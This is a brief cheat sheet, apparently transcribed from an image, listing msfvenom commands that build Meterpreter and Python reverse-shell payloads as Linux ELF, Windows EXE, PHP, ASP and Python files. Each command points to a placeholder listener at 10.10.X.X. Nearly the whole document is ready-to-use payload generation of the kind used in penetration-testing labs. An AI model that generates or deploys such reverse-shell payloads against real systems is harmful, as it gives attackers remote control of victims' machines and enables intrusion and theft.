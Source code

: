 # Linux Executable and Linkable Format (elf)
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf

# Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe

# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php

# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp

# Python
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
